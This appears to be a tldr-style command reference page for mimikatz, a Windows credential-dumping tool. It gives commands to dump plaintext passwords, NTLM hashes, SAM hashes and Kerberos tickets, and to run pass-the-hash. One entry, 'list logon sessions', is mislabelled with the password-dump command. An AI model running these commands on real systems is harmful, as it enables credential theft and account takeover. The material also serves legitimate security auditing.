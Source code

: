 ```yaml
---
title: "Mimikatz - Extract Windows Credentials | Free DevTools"
name: mimikatz
path: /freedevtools/tldr/windows/mimikatz
canonical: "https://hexmos.com/freedevtools/tldr/windows/mimikatz/"
description: "Extract Windows credentials with Mimikatz, a powerful post-exploitation tool. Dump passwords, hashes, and Kerberos tickets. Free online tool, no registration required."
category: windows
keywords:
- windows credential extraction
- mimikatz password dumper
- windows password recovery
- windows hash extraction
- kerberos ticket dump
- local sam database dump
- windows post exploitation
- credential theft windows
- windows security auditing
- windows privilege escalation
features:
- Dump plaintext passwords from memory
- Extract NTLM hashes from Windows
- Export Kerberos tickets to a file
- Manipulate user tokens for privilege escalation
- Dump local SAM database hashes
ogImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
twitterImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
---
```


# mimikatz

> Interact with Windows credentials, perform credential dumping, token manipulation, and more.
> Requires administrator privileges and typically runs on Windows.
> More information: <https://github.com/gentilkiwi/mimikatz>.

- Run mimikatz in interactive mode:

`mimikatz`

- Enable debug privileges (needed for most operations):

`mimikatz "privilege::debug"`

- List available logon sessions:

`mimikatz "sekurlsa::logonpasswords"`

- Dump plaintext passwords, NTLM hashes, and Kerberos tickets from memory:

`mimikatz "sekurlsa::logonpasswords"`

- Pass-the-Hash with a specific NTLM hash and launch a command:

`mimikatz "sekurlsa::pth /user:{{username}} /domain:{{domain}} /ntlm:{{hash}} /run:{{cmd}}"`

- Dump local SAM database hashes:

`mimikatz "lsadump::sam"`

- Extract Kerberos tickets and export to a file:

`mimikatz "kerberos::list /export"`

- Exit mimikatz:

`exit`
